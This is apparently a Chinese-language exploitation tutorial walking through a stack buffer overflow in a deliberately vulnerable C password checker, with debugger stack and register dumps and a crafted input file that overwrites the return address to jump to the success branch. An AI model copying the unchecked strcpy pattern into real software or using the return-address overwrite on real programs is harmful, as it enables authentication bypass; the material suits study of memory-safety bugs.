#Redirect Program Execute Flow via Overrun Return Address

**Author：wnagzihxain
Mail：tudouboom@163.com
Site：www.wangzhixian.org
Create Time：2016.02.21
**

```
#include <stdio.h>
 
#define PASSWORD "1234567"

int verify_password (char *password)
{
	int authenticated;
	char buffer[8];// add local buff
	authenticated = strcmp(password, PASSWORD);
	strcpy(buffer, password);//over flowed here!	
	return authenticated;
}

int main(int argc, char **argv, char **envp)
{
	int valid_flag = 0;
	char password[1024];
	while(1)
	{
		printf("please input password:       ");
		scanf("%s", password);
		valid_flag = verify_password(password);
		if(valid_flag)
		{
			printf("incorrect password!\n\n");
		}
		else
		{
			printf("Congratulation! You have passed the verification!\n");
			break;
		}
	}
	system("pause");
	return 0;
}
```

依照上次，在调用strcpy的时候下断点，注意栈里数据的变化



```
0012FB18   CCCCCCCC  烫烫
0012FB1C   CCCCCCCC  烫烫
0012FB20   00000001  ...
0012FB24  /0012FF80  €.
0012FB28  |004010EB  ?@.   返回到 stack_ov.004010EB 来自 stack_ov.00401005
```

七个q已经赋值给字符串



修改一下，在strcpy的下一句汇编代码下断点

11个字符："abcdefjhijk"



观察栈里的变化，可以看到authenticated变量已经被覆盖掉了

```
0012FB14   CCCCCCCC  烫烫
0012FB18   64636261  abcd
0012FB1C   686A6665  efjh
0012FB20   006B6A69  ijk.
0012FB24  /0012FF80  € .
0012FB28  |004010EB  ?@.   返回到 stack_ov.004010EB 来自 stack_ov.00401005
0012FB2C  |0012FB7C  |?.   ASCII "abcdefjhijk"
0012FB30  |0012B87C  |?.
```

15个字符："abcdefjhijklmno"


覆盖掉了前栈帧的EBP

```
0012FB14   CCCCCCCC  烫烫
0012FB18   64636261  abcd
0012FB1C   686A6665  efjh
0012FB20   6C6B6A69  ijkl
0012FB24   006F6E6D  mno.
0012FB28   004010EB  ?@.   返回到 stack_ov.004010EB 来自 stack_ov.00401005
0012FB2C   0012FB7C  |?.   ASCII "abcdefjhijklmno"
0012FB30   0012B74C  L?.
```

19个字符："abcdefjhijklmnopqrs"



覆盖掉了返回地址

```
0012FB14   CCCCCCCC  烫烫
0012FB18   64636261  abcd
0012FB1C   686A6665  efjh
0012FB20   6C6B6A69  ijkl
0012FB24   706F6E6D  mnop
0012FB28   00737271  qrs.
0012FB2C   0012FB7C  |?.   ASCII "abcdefjhijklmnopqrs"
0012FB30   0012B74C  L?.
```

接着F8单步走，走到pop ebp的时候，注意寄存器窗口的变化，EBP已经被我们控制了



此时寄存器的值

```
EAX 6C6B6A69
ECX 0012FB90 ASCII CC,"烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫"
EDX 00737271
EBX 7FFDF000
ESP 0012FB24 ASCII "mnopqrs"
EBP 0012FB24 ASCII "mnopqrs"
ESI 0012B77C
EDI 0012FF80
EIP 0040106E stack_ov.0040106E
```

F8单步走，继续观察寄存器窗口的变化



EBP已经变成了我们控制的值，然后注意EIP的值

```
EAX 6C6B6A69
ECX 0012FB90 ASCII CC,"烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫"
EDX 00737271
EBX 7FFDF000
ESP 0012FB28 ASCII "qrs"
EBP 706F6E6D
ESI 0012B77C
EDI 0012FF80
EIP 0040106F stack_ov.0040106F
```

F8单步走下去

跳到了不知道什么地方的地方



看EIP寄存器，也变成了我们控制的值

```
EAX 6C6B6A69
ECX 0012FB90 ASCII CC,"烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫烫"
EDX 00737271
EBX 7FFDF000
ESP 0012FB2C
EBP 706F6E6D
ESI 0012B77C
EDI 0012FF80
EIP 00737271	
```

好了分析完了溢出后寄存器的变化以及程序运行过程，现在修改一下代码

```
#include <stdio.h>
#include <windows.h>

#define PASSWORD "1234567"

int verify_password (char *password)
{
	int authenticated;
	char buffer[8];
	authenticated = strcmp(password, PASSWORD);
	strcpy(buffer, password);//over flowed here!	
	return authenticated;
}

int main()
{
	int valid_flag=0;
	char password[1024];
	FILE * fp;
	if(!(fp = fopen("password.txt", "rw+")))
	{
		exit(0);
	}
	fscanf(fp, "%s", password);
	valid_flag = verify_password(password);
	if(valid_flag)
	{
		printf("incorrect password!\n");
	}
	else
	{
		printf("Congratulation! You have passed the verification!\n");
	}
	fclose(fp);
	system("pause");
	return 0;
}
```

小改了下代码，然后在程序同文件夹下创建一个txt，写入"1234567"

F8单步走下来，找到main函数入口，至于怎么找入口。。。。。。三个压栈操作下面就是了



F7跟进去，这是main函数领空，F8继续单步，先找到verify_password ()的入口， F8运行，断在这



同时拉下来看下面的汇编代码，找到密码验证成功的代码，地址是0040111F

```
0040110E  |. /74 0F         je short stack_ov.0040111F
00401110  |. |68 70804200   push offset stack_ov.??_C@_0BF@IIFN@incorrect?5password?>;  ASCII "incorrect password!\n"
00401115  |. |E8 36040000   call stack_ov.printfgvdbgnnd_blockeressges
0040111A  |. |83C4 04       add esp,0x4
0040111D  |. |EB 0D         jmp short stack_ov.0040112C
0040111F  |> \68 30804200   push offset stack_ov.??_C@_0DD@FPBB@Congratulation?$CB?5>
;  ASCII "Congratulation! You have passed the verification!\n"
00401124  |.  E8 27040000   call stack_ov.printfgvdbgnnd_blockeressges
```

记下来，然后F7跟入verify_password ()，然后F8单步走到如下位置，观察栈以及寄存器的数据



F8单步，在此处下断点，后面运行的时候需要用



根据以前的分析，可以确定各变量在栈里所在位置

```
0012FB14   34333231  1234
0012FB18   00373635  567.
0012FB1C   00000000  ....
0012FB20  /0012FF80  € .
0012FB24  |00401104    @.  返回到 stack_ov.mainshort_argingAblock_pages+74 来自 stack_ov.00401005
0012FB28  |0012FB7C  |?.   ASCII "1234567"
0012FB2C  |0012B74C  L?.
0012FB30  |0012B77C  |?.
```

现在来构造数据，任意16进制编辑器都可以，因为刚刚找到了密码验证正确的跳转地址

而且如果以“4321”为一组的话，覆盖返回地址刚好在第5组，返回地址在0040111F

根据数据在内存里的排列顺序，输入要倒着来也就是1F 11 40 00



运行，刚刚下的断点就是为了这里用的



栈里的数据，可以看到成功的覆盖掉了

```
0012FB14   31323334  4321
0012FB18   31323334  4321
0012FB1C   31323334  4321
0012FB20   31323334  4321
0012FB24   0040111F  ¬ @.  stack_ov.0040111F
0012FB28   0012FB7C  |?.
0012FB2C   0012B74C  L?.
0012FB30   0012B77C  |?.
```

F9继续运行，成功跳到了密码验证正确的if分支，因为堆栈不平衡，所以程序崩溃了

